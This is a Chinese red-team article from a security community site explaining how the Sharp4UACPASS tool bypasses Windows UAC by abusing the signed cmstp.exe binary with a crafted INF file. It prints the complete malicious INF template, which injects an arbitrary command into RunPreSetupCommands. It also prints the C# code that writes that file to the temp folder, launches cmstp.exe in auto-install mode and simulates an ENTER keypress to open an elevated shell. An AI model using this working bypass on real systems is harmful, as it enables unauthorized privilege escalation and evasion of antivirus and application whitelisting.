

# Sharp4UACPASS：一款通过调用CMSTP进程绕过UAC的工具-先知社区

> **来源**: https://xz.aliyun.com/news/16431  
> **文章ID**: 16431

---

在渗透测试和红队活动中，Sharp4UACPASS.exe工具可以帮助攻击者一键绕过UAC，主要利用了cmstp.exe这个二进制文件，它本身是一款被广泛用于安装网络连接配置文件的 Microsoft 签名程序。虽然其表面用途看似无害，但通过自定义 INF 文件巧妙利用，可以实现执行任意命令的能力，可轻松绕过防病毒和应用白名单的监控。本文将以攻击队的视角，揭示如何通过这种隐秘的方式获取目标系统的控制权，并探索其中的技术细节与安全隐患。

### 0x01 详解CMSTP

cmstp.exe的主要用途是帮助 IT 管理员或用户快速部署 VPN 配置或网络连接文件。通常，运行 CMSTP 并自动安装指定的INF配置文件，具体命令格式如下所示。

```
cmstp.exe /au "C:\path\to\vpn.inf"

```

一个合法的VPN配置信息一般包括网络配置、用户凭据、注册表修改、安装命令等内容。由于 cmstp.exe 是一个合法的、受微软签名保护的二进制文件，攻击者可以利用其加载恶意 INF 文件，执行恶意命令达到绕过安全软件的检测.

#### 1.1 [version]

首先，我们看到配置文件中的头部version部分内容，具体如下所示。

```
[version]
Signature=$chicago$
AdvancedINF=2.5

```

此处的 Signature=$chicago$，是标准的 INF 文件签名，表示文件兼容 Windows，AdvancedINF=2.5 声明此 INF 文件使用的高级 INF 格式版本。

#### 1.2 [DefaultInstall]

在 CMSTP.exe 的 INF 文件中，[DefaultInstall] 部分定义了安装过程中需要执行的主要任务。这部分可以包含多个指令，分别指向特定的任务逻辑，比如文件复制、命令执行、或注册表修改，具体可参考如下示例。

```
[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

```

CustomDestination 参数 表示指向一个逻辑节点（Section），通常是涉及文件自定义的安装位置，比如：CustomDestination=<逻辑节点名称>

#### 1.3 [CustInstDestSectionAllUsers]

在安装时，CustomDestination 会解析对应节（如 [CustInstDestSectionAllUsers]）中的内容，而 CustInstDestSectionAllUsers 配置项如下所示。

```
[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7

```

49000, 49001 是逻辑标识符，指向 [AllUSer\_LDIDSection] 配置节点，7是安装目录的 ID 值，表示共享目录。

#### 1.4 [AllUSer\_LDIDSection]

此处的 [AllUSer\_LDIDSection] 定义了注册表的修改操作，将安装路径写入 HKLM 的 InstallPath 键中。

```
[AllUSer_LDIDSection]
"HKLM", "SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE", "ProfileInstallPath", "%UnexpectedError%", ""

```

此处配置的 CMMGR32.EXE 是 Windows 系统中的一个合法可执行文件，正常情况下通过cmstp.exe安装配置文件后，交由 CMMGR32.exe 加载执行。  
另外一个 RunPreSetupCommands 参数，常用于准备安装环境，例如终止某些进程、解锁资源或执行初始化脚本。这里是指向RunPreSetupCommandsSection节点。

#### 1.5 [RunPreSetupCommandsSection]

比如配置启动 cmd命令提示符，再调用 taskkill /IM cmstp.exe /F：强制终止 cmstp.exe 进程，为了释放文件锁定，具体如下所示。

```
[RunPreSetupCommandsSection]
C:\Windows\System32\cmd.exe
taskkill /IM cmstp.exe /F

```

### 0x02 编码实现

首先，Sharp4UACPASS.exe内部声明了一个字符串常量 InfData，其内容是一个 .inf 文件的配置模板。这种 .inf 文件用于cmstp.exe安装配置脚本，具体代码如下所示。

```
public static string InfData = "[version]\nSignature=$chicago$\nAdvancedINF=2.5\n \n[DefaultInstall]\nCustomDestination=CustInstDestSectionAllUsers\nRunPreSetupCommands=RunPreSetupCommandsSection\n \n[RunPreSetupCommandsSection]\nREPLACE_COMMAND_LINE\ntaskkill /IM cmstp.exe /F\n \n[CustInstDestSectionAllUsers]\n49000,49001=AllUSer_LDIDSection, 7\n \n[AllUSer_LDIDSection]\n\"HKLM\", \"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\App Paths\\CMMGR32.EXE\", \"ProfileInstallPath\", \"%UnexpectedError%\", \"\"\n \n[Strings]\nServiceName=\"VPN\"\nShortSvcName=\"VPN\"\n \n";

```

定义用于 cmstp.exe 配置的模板，其中 REPLACE\_COMMAND\_LINE 是一个占位符，将在实际使用时被动态替换为需要执行的命令。接着，再定义一个方法 SetInfFile，主要功能是动态随机生成一个 .inf 配置文件，并将指定的命令注入其中。

```
public static string SetInfFile(string CommandToExecute)
{
        string value = Path.GetRandomFileName().Split(new char[]
        {
            Convert.ToChar(".")
        })[0];
        string value2 = "C:\\windows\\temp";
        StringBuilder stringBuilder = new StringBuilder();
        stringBuilder.Append(value2);
        stringBuilder.Append("\\");
        stringBuilder.Append(value);
        stringBuilder.Append(".inf");
        StringBuilder stringBuilder2 = new StringBuilder(CMSTPBypass.InfData);
        stringBuilder2.Replace("REPLACE_COMMAND_LINE", CommandToExecute);
        File.WriteAllText(stringBuilder.ToString(), stringBuilder2.ToString());
        return stringBuilder.ToString();
}

```

生成的 .inf 扩展名文件位于 C:\windows\temp\ 目录下，另外， 替换模板中的占位符 REPLACE\_COMMAND\_LINE 为传入的命令 CommandToExecute，比如，如果传入 cmd.exe /c calc.exe，最终内容如下所示。

```
[RunPreSetupCommandsSection]
cmd.exe /c calc.exe
taskkill /IM cmstp.exe /F

```

最后，定义了一个方法 Execute，用于利用cmstp.exe和自定义.inf文件执行指定的命令，方法代码具体如下所示。

```
public static bool Execute(string CommandToExecute)
{
        if (!File.Exists(CMSTPBypass.BinaryPath))
        {
            return false;
        }
        StringBuilder stringBuilder = new StringBuilder();
        stringBuilder.Append(CMSTPBypass.SetInfFile(CommandToExecute));
        Process.Start(new ProcessStartInfo(CMSTPBypass.BinaryPath)
        {
            Arguments = "/au " + stringBuilder.ToString(),
            UseShellExecute = false
        });
        IntPtr value = 0;
        value = IntPtr.Zero;
        do
        {
            value = CMSTPBypass.SetWindowActive("cmstp");
        }
        while (value == IntPtr.Zero);
        SendKeys.SendWait("{ENTER}");
        return true;
}

```

上述代码启动 cmstp.exe 进程，并且设置参数为 /au，表示指定自动安装模式。接着，调用 SendKeys.SendWait("{ENTER}"); 模拟用户按下回车键以确认对话框或窗口操作，运行时弹出一个以管理员身份启动的cmd.exe，如下图所示。



### 0x03 小结

综上，通过对 cmstp.exe 的深入剖析，我们可以看到Sharp4UACPASS.exe利用其对自定义 INF 文件的支持，攻击者能够在不触发传统安全防护机制的情况下，执行任意命令或代码，从而实现绕过白名单和权限提升的目标。这种攻击方式不仅隐蔽性极强，而且依赖于操作系统原生功能，使其更难被检测或阻断。
